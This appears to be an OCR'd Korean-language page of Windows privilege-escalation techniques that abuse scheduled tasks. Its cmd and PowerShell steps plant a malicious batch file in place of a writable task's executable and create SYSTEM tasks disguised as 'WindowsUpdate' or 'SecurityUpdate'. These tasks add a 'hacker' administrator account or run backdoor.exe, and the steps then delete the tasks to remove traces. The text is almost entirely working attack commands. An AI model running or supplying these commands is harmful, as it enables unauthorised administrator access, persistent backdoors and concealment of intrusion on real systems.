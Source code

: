 ```cmd
:: 1. 실행 파일이 있는 디렉토리 권한 확인
icacls "C:\Scripts\"

:: 2. 디렉토리에 쓰기 권한이 있는 경우
:: 원본 실행 파일명과 동일한 악성 파일 생성

:: 3. 실행 파일 이름 확인
schtasks /query /tn "VulnerableTask" /fo LIST /v | findstr "Task To Run"

:: 4. 같은 이름의 악성 실행 파일 생성
echo @echo off > "C:\Scripts\original_name.bat"
echo net user hacker password123 /add >> "C:\Scripts\original_name.bat"
echo net localgroup administrators hacker /add >> "C:\Scripts\original_name.bat"

:: 5. 원본 파일을 다른 이름으로 변경하고 악성 파일이 실행되도록 함
ren "C:\Scripts\original_name.bat" "C:\Scripts\original_name.bat.old"
```

### 📁 새로운 스케줄된 작업 생성

```cmd
:: 1. 스케줄된 작업 생성 권한 확인
schtasks /create /tn "TestTask" /tr "cmd.exe" /sc once /st 23:59 /ru SYSTEM

:: 2. 권한이 있는 경우 관리자 계정 생성 작업
schtasks /create /tn "WindowsUpdate" /tr "cmd.exe /c net user hacker password123 /add & net localgroup administrators hacker /add" /sc onstart /ru SYSTEM

:: 3. 즉시 실행되는 작업 생성
schtasks /create /tn "SecurityUpdate" /tr "C:\Windows\Temp\backdoor.exe" /sc once /st %TIME% /ru SYSTEM

:: 4. 작업 실행
schtasks /run /tn "SecurityUpdate"

:: 5. 작업 삭제 (흔적 제거)
schtasks /delete /tn "SecurityUpdate" /f
```

```powershell
# PowerShell로 새 스케줄된 작업 생성
# 1. 작업 액션 정의
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Command `"net user hacker password123 /add; net localgroup administrators hacker /add`""

# 2. 트리거 정의 (즉시 실행)
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1)

# 3. 보안 주체 정의 (SYSTEM 권한)
$principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest

# 4. 작업 등록
Register-ScheduledTask -TaskName "SystemMaintenance" -Action $action -Trigger $trigger -Principal $principal

# 5. 즉시 실행
Start-ScheduledTask -TaskName "SystemMaintenance"

# 6. 작업 삭제
Unregister-ScheduledTask -TaskName "SystemMaintenance" -Confirm:$false
```
